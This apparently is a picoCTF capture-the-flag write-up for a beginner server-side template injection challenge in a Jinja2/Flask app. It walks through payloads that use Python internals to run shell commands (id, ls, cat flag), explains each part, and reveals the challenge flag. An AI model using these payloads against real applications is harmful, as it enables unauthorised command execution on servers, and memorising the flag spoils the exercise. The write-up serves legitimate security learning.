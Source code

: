 # SSTI1
Author: Venax


## 📂 Category
- Web Exploitation  
- Difficulty: Easy  

---

## 🧩 Challenge Description
The challenge provided a simple web form that reflected user input. 

---

## 🔍 Initial Observations
- Entering expressions like `{{7*7}}` returned `49`, indicating possible Server-Side Template Injection (SSTI).
---

## 🧪 Exploitation Steps

1. Entered: ```{{7*7}}``` → Response was `49` → Confirmed SSTI.
2. Tried: ```{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}```
3. Got a system-level response confirming Remote Code Execution (RCE).
4. Ran: ```{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```
5. Server files listed.
6. Finally: ```{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}```
7. Revealed the flag.

---

## 🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}

---

## 🧠 What I Learned

**What is a Template Engine?**

A template engine helps generate dynamic web pages. Instead of hardcoding values, you write placeholders like:

```<p>Hello, {{ name }}!</p>```

The server fills in the actual data.

In this challenge, the web page uses Jinja2, the default template engine for Python's Flask framework, to make the page dynamic. Different frameworks use different engines and syntax. For example, if the site was built with Django, an expression like ```{{7}}``` might be enough to test for evaluation.

**What is SSTI?**

Server-Side Template Injection occurs when user input is unsafely inserted into a template. If an input like ```{{7*7}}``` returns 49 (7 times 7 = 49), the server is evaluating user input as code.

**Note:** 7\*7 is just a common convention—it could be any expression.

If unpatched, SSTI can lead to:
- Data leaks
- Remote code execution (RCE)
- Full server compromise

### **Code explanation**

```{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}```

- ```request```	: A Flask object representing the current HTTP request.
- ```request.application``` : The Flask application instance being used.
- ```__globals__```: Accesses the global variables of the template’s underlying Python environment.
- ```__builtins__``` : Exposes all built-in Python functions and objects (like open, print, __import__, etc.).
- ```__import__('os')``` : Dynamically imports the os module — a powerful module for interacting with the system.
- ```.popen('id')``` : Runs the shell command id, which returns the current user and group info. Can replace with other commands (eg: ls, cat, etc)
- ```.read()``` : Reads and returns the output of that command.

---

## 📚 References and Resources

- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
- chatGPT
---
### Last updated: 5/13/2025